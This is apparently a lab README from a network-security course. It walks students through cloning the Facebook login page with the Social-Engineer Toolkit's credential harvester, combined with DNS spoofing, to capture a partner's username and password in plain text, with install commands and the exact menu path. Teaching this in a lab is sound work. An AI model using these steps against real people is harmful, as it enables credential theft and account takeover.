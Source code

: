 # Phishing Attack

Phishing is a type of social engineering where an attacker sends a fraudulent (e.g., spoofed, fake, or otherwise deceptive) message designed to trick a person into revealing sensitive information to the attacker (a password or credential) or to deploy malicious software on the victim's infrastructure like ransomware.

Phishing attacks have become increasingly sophisticated and often transparently mirror the site being targeted, allowing the attacker to observe everything while the victim is navigating the site, and transverse any additional security boundaries with the victim. 
 
Phishing is by far the most common attack performed by cybercriminal

## Facebook Phishing Attack
### **Goal**
In this session, our goal is to clone the facebook website and to apply a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack using ettercarp in order to retrieve victim's credentials.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Follow the guideline in order to perform a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack against the victim ip address
 2. Install ***S**oftware **E**ngineering **Toolkit*** (**setoolkit**)

        git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
        cd set
        sudo python3 setup.py install
 3. Install **Apache2**

        sudo apt update
        sudo apt install apache2
 4. Install and enable **libapache2-mod-php**
        
        sudo apt install libapache2-mod-php*
        sudo a2enmod php**X.Y**
    * **Attention:** if comaptibility errors with libapache2-mod-php**5** are shown, disable module libapache2-mod-php

 5. Configure setoolkit

        sudo su
        pico /etc/setoolkit/set.config

    * Edit the following parameters:
        
        * **APACHE_SERVER ON**
        * **APACHE_DIRECTORY /var/www/html**
 6. Run **setoolkit** as superuser
    
        sudo setoolkit

 7. Use the interactive shell to clone the facebook website

        enter 1 - Social-Engineering Attacks
        enter 2 - Website Attack Vectors
        enter 3 - Credential Harvester Attack Method
        enter 2 - Site Cloner
 8. Enter your (**Attacker**) ip address
 9. Enter the website url you want to clone, (e.g., **www.facebook.com**)
 10. On the **Victim** side try to ping **www.facebook.com**

            ping -n www.facebook.com
    
        * You should see the ip address of the **Attacker** instead of the ip address of the (real) facebook server
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/1.dns_spoof_ping_test.png?raw=true)

 11. Navigate **www.facebook.com** from the **Victim** pc
 12. Fillin **username** and **password** fields
 13. Come back to **Attacker** machine e see in **plain text** the username and password as filled in by the **Victim**
 ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/2.phishing.png?raw=true)

**Attention:** if the **Victim** browser has the auto-redirect to https option enabled, the **Victim** will be redirected to **https** web page so, you need to enable also the **ssl** module on your **apache2** webserver 
